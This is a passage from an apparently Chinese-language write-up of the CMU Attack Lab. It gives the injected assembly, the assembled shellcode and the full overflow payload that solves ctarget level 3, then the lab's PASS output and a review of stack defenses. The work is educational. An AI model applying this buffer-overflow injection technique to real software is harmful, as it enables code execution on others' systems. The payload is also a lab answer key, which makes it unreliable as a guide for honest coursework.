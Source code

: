 另外，观察到 `getbuf()` 执行完时 `%rsp` 是指向缓冲区高地址处的。由于后面还涉及 `hexmatch()` 函数的调用，为了防止进栈操作把构造的缓冲区覆盖掉，需要对 `%rsp` 减去缓冲区大小 `0x28`。由于地址没有超出 32 位，下面用 `%edi` 代替 `%rdi` 以减小汇编代码长度：

```asm
sub $0x28, %rsp
mov $0x5561dc88, %edi
mov $0x004018fa, %eax
jmp *%eax
```

汇编后为：

```
83 EC 28 BF 88 DC 61 55 B8 FA 18 40 00 FF E0
```

其中 `0x5561dc88` 即缓冲区最低位置 `0x5561dc78` 加上上述汇编指令对应二进制长度后的结果（长度为 15 字节，对齐为 16 字节）。其指向我们即将构造的 `cookie` 对应字符串的起始地址。

接下来构造 `0x59b997fa` 对应的字符串：

```
35 39 62 39 39 37 66 61
```

因此，完整的字符串应当为：

```
83 EC 28 BF 88 DC 61 55 B8 FA 18 40 00 FF E0 00 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00
```

试试看~

```
$ ./hex2raw < hex.txt > raw && ./ctarget -q -i raw
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:83 EC 28 BF 88 DC 61 55 B8 FA 18 40 00 FF E0 00 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```

# 面向返回编程

## 回顾

**有办法相对通用地避免前面提到的代码注入吗？**

虽然使用更加安全的 `gets()` 是避免此类漏洞最简单的方案，但能否在不需要程序员对代码本身做任何修改的前提下使得代码注入更加困难？

- **运行时随机化栈地址**: 之前实验中，都需要让程序跳转至缓冲区处执行注入的代码。正是因为缓冲区在栈中的地址每一次运行时都是不变的，才让我们轻松地达到了目的。如果每次运行程序，缓冲区所处的地址都不相同，注入代码会更加困难；
- **将栈标记为不可执行区域**：之前实验中，注入的代码都被存放在栈中。如果将栈标记为不可执行区域，使得程序拒绝执行栈中代码，注入代码便会更加困难；
- **Canary 保护**：其核心思想在于对压入栈的每一帧末尾添加一个额外的随机数（称作 Canary）。这个随机数的作用与金丝雀很像，即一旦发现 Canary 值被更改，则会导致程序运行异常并停止。若想通过溢出来修改返回地址，则必然需要先覆盖掉 Canary。这使得代码注入更加困难了。
